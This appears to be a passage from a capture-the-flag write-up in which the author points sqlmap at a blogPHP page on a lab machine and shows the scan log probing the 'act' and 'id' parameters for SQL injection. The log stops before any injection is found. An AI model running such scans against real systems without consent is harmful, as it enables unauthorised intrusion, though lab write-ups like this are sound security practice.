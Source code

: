 ## Beating the house

looking around, we see its blogPHP. There's some exploits, but let's try SQLmap as I'm lazy!
PS: Y'all can't do this since mrB3n patched it already...

```
root@kali:~# sqlmap -u 'http://192.168.110.151/blog/index.php?act=page&id=1'
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201606250a89}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:33:06

[10:33:06] [INFO] testing connection to the target URL
[10:33:06] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[10:33:06] [INFO] testing if the target URL is stable
[10:33:07] [INFO] target URL is stable
[10:33:07] [INFO] testing if GET parameter 'act' is dynamic
[10:33:07] [INFO] confirming that GET parameter 'act' is dynamic
[10:33:07] [INFO] GET parameter 'act' is dynamic
[10:33:07] [WARNING] heuristic (basic) test shows that GET parameter 'act' might not be injectable
[10:33:08] [INFO] testing for SQL injection on GET parameter 'act'
[10:33:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:33:08] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[10:33:08] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[10:33:08] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:33:08] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[10:33:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:33:08] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[10:33:08] [INFO] testing 'MySQL inline queries'
[10:33:08] [INFO] testing 'PostgreSQL inline queries'
[10:33:08] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[10:33:08] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[10:33:08] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:33:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:33:08] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:33:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[10:33:09] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[10:33:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[10:33:09] [INFO] testing 'Oracle AND time-based blind'
[10:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[10:33:09] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it using option '--dbms'
[10:33:10] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[10:33:11] [WARNING] GET parameter 'act' is not injectable
[10:33:11] [INFO] testing if GET parameter 'id' is dynamic
[10:33:11] [WARNING] GET parameter 'id' does not appear dynamic
[10:33:11] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[10:33:11] [INFO] testing for SQL injection on GET parameter 'id'
[10:33:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:33:11] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[10:33:11] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[10:33:12] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:33:12] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[10:33:12] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:33:12] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
```